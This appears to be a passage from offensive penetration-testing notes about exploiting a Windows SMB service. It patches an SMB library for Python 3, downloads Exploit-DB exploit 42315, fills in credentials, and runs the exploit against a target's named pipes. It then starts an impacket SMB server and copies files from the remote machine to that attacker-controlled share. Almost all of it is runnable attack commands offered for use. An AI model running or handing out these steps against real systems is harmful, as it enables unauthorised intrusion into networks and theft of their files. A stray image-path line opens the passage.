     Line.80
    # transData += ('\x00' * padLen) + data
    transData += "".join(map(chr,(b'\x00' * padLen))) + str(data)

    Line.231
    # req = str(pkt)
    req = pkt.getData()
    return b'\x00'*2 + pack('>H', len(req)) + req  # assume length is <6553

    Line.381
    # data += resp['Data'][1:]
    data += resp['Data'][1:].decode()
    ```

3. **Download exploit.py**

    ```sh
    wget -O exploit.py https://www.exploit-db.com/exploits/42315

    # Convert DOS to UNIX
    dos2unix exploit.py
    ```

4. **Edit the Credentials in exploit.py**

    ```sh

    ...
    username = "username"
    password = "password"
    ...

    ```

5. **Run the script**

    ```sh
    python exploit.py <target-ip> netlogon
    python exploit.py <target-ip> lsarpc
    python exploit.py <target-ip> samr
    ```

<br />

## Launch SMB Server

```bash
impacket-smbserver share . -smb2support -username user -password pass
```

### Access from Remote Machine

```bash
net use \\<local-ip>\share /u:user pass
```

### Transfer Files

```bash
# Remote to Local
cp .\example.txt \\<local-ip>\share\example.txt
```
